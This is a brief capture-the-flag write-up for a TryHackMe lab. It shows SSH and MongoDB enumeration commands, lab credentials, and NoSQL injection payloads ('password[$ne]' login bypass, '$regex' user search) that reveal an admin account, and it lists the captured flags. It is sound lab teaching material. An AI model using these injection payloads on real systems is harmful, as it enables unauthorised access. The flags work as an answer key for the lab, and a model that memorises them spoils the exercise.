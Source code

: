 # [Day7] *Web Exploitation* Migration Without Security

-------------

> Author Razvan Bielz \
> Date: 11 Jan 2022

--------------

## Info

`IP: 10.10.255.11`

### Accounts

> thm:tryhackme

--------------

## Steps

1. SSH into the machine using the given credentials  
  `ssh thm@10.10.255.11 -p 2222`  
2. Enter MongoDB using `mongo`
3. Enumerate using `show databases`  
  `use flagdb`  
  `db.getCollectionNames()`  
  `db.flagColl.find()`  
4. Find the first flag.
5. Open BurpSuite and use NoSQL Injection to login as admin: `username=admin&password[$ne]=password`
6. Do the same for the User search to find the next flag
7. Search for McSkidy like this:  
  `GET /search?username[$regex]=mcskidy&role[$ne]=blabla HTTP/1.1`  
8. Find the result: `ID:6184f516ef6da50433f100f4:mcskidy:admin`

--------------

## Flags

`THM{8814a5e6662a9763f7df23ee59d944f9}`  
`THM{b6b304f5d5834a4d089b570840b467a8}`  
`THM{2ec099f2d602cc4968c5267970be1326}`  

--------------

## What have we learned?

- NoSQL
  - A NoSQL database refers to a non-relational database that is short for non SQL and Not only SQL. It is a data-storing and data-retrieving system. NoSQL databases are commonly used nowadays for big Data and IoT devices due to their powerful features such as fast queries, ease of use to developers, scale easily, and flexible data structure. 